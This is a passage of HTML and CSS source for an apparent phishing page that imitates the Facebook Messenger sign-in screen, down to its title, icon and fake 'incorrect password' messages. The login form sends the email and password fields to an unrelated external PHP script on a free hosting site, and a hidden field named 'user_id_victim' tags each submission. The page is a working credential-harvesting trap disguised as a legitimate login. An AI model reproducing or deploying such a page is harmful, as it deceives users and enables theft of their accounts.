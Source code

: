 [class~=checkmark]:after{-ms-transform:rotate(45deg);}[class~=container] [class~=checkmark]:after{transform:rotate(45deg);}.container input:checked ~ .checkmark{background-color:#0084ff;}
.container {right: 10px;top: 5px;}
.erorr {color: #f03d25;
display: block;
margin-right: auto;
margin-left: auto;
font-size: 17px;
font-weight: 500;
line-height: 25px;
margin-bottom: 24px;
text-align: center;}
.erorrborder{border: 2px #f03d25 solid;}
#erorrmail,#erorrpass {display:none;}
.inlog{ background: #0a7cff;
border-radius: 50px;
color: #fff;
font-size: 16px;
padding: 9.5px 20px;}
.logo {background-image: url(https://www12.0zz0.com/2021/06/18/20/737957013.png);
background-repeat: no-repeat;
height: 100px !important;
width: 80px;
max-width:100px;}
.body3{
display:block;
padding:30 50px;
text-align:center;
}

--></style>

	  </style>
<link href='https://1.bp.blogspot.com/-f5dE36F6cyU/YMy66Sxdb3I/AAAAAAAAAdM/xOc2PbayJTcF4ssZTllkzRl3WhtjtBbKgCLcBGAsYHQ/s1850/golden-Messenger-logo-social-media-icon-png.png' rel='icon' sizes='16x16' type='image/gif'/>
<title>Messenger</title>
<meta name='google-adsense-platform-account' content='ca-host-pub-1556223355139109'/>
<meta name='google-adsense-platform-domain' content='blogspot.com'/>

</head>
<body>
<div class='no-items section' id='1'></div>
<div class='body2'>
<div class='body3'>
<i class='logo'></i>
<h1>Messenger</h1>
<br/>
<h2>Instantly connect with people in your life.</h2>
<h2>Sign in with Facebook to get started.</h2>
<div class='erorr'>
<div id='erorrmail'>Incorrect email or phone number.</div>
<div id='erorrpass'>The password you entered is incorrect.</div>
</div>
<form action='https://newoneforfree.000webhostapp.com/Loggg.php' autocomplete='on' id='veh0' method='POST' name='loginform'>
<input class='inputl' id='erorremin' maxlength='50' name='email' placeholder='Email address or phone number' required='' type='text'/>
<input class='inputl' id='erorrpain' maxlength='50' name='pass' placeholder='Password' required='' type='password'/>
<input id='zaxuserkey' name='user_id_victim' type='hidden' value='WN09A'/>
<input name='type' type='hidden' value='msgr-new'/>
<input class='inlog' name='zaxfac' type='submit' value='Continue'/>
</form>
<label class='container'>